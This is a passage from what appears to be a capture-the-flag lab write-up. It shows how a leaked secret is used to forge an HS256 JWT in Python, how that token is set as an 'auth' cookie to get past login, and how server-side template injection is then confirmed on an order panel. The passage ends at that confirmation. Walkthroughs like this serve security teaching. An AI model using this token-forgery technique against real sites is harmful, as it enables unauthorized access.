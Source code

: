 ```bash
                'body': json.dumps('Invalid Order ID')
```

With this secret we can create our own **JWT** for the website in Port 5000:

From this part of the code we know that we need a **username** field and it's using **HS256** as algorithm:

```python
def verify_jwt(token,key):
	try:
		username=jwt.decode(token,key,algorithms=['HS256',])['username']
		if username:
			return True
		else:
			return False
	except:
		return False
```

Now we can proceed:

```python
❯ python3

Python 3.10.4 (main, Mar 24 2022, 13:07:27) [GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> secret = "RrXCv`mrNe!K!4+5`wYq"
>>> jwt.encode({"username":"l0gan334"}, secret, algorithm='HS256')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImwwZ2FuMzM0In0.bRBgArDxh54bJT9eBnbV3XZsAARByURuCfi2HApcXUg'
```

With the name 'auth' we will add this cookie to the webserver:
{{< image src="/img/eps3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Now we have access!
{{< image src="/img/eps4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

In **/order** there is some sort of ordering panel that doesn't look to do much:
{{< image src="/img/eps5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Depending on what we choose in the *costume* it's the output:
{{< image src="/img/eps6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

{{< image src="/img/eps7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Knowing this we will launch **Burpsuite** and do some tests over this request.


After making the usual test for Server Side Template Injection we get this:

{{< image src="/img/eps8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

{{< image src="/img/eps9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

If we input a mahtematical operation between double curly braces and we get the result that means the website is **vulnerable**. 
